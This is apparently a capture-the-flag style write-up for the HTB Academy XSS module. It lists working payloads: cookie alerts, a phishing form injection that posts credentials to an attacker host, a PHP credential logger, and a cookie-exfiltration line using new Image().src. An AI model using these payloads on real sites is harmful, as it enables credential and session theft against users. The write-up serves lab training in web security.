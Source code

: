 # [HTB_Academy] Cross-Site Scripting (XSS)

## Stored XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<script>alert(document.cookie)</script>
```

## Reflected XSS

>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<script>alert(document.cookie)</script>
```

## DOM XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```javascript
<img src="" onerror=alert(document.cookie)>
```

## XSS Discovery

>**Q. Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter? **

>**Q. What type of XSS was found on the above server? "name only"**

## Phishing

>**Q. Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

```bash
http://10.129.252.57/phishing/index.php?url=<script>alert(window.origin)</script>
```

```bash
http://10.129.252.57/phishing/index.php?url=document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

## Session Hijacking

>**Q. Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**
Look for the payload

```javascript
"><script src=http://10.10.14.46:3333></script>
```

Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Look for the position
```javascript
"><script src=http://10.10.14.46:3333/fullname></script>
"><script src=http://10.10.14.46:3333/username></script>
"><script src=http://10.10.14.46:3333/password></script>
"><script src=http://10.10.14.46:3333/url></script>
```

```javascript
new Image().src='http://10.10.14.46:3333/index.php?c='+document.cookie
```

Click on "+" to add the cookie

## Skills Assessment

>**Q. What is the value of the 'flag' cookie?**
